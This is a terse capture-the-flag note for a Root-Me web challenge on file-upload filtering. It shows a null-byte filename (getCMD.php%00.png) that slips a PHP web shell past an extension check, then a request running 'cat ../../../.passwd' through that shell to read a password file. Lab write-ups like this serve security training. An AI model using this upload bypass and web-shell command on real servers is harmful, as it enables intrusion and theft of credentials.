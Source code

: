# File upload - Null byte

upload file getCMD.php%00.png

http://challenge01.root-me.org/web-serveur/ch21/galerie/upload/fmqksg11kkl309h2ec7bh7oak0//getCMD.php?cmd=cat ../../../.passwd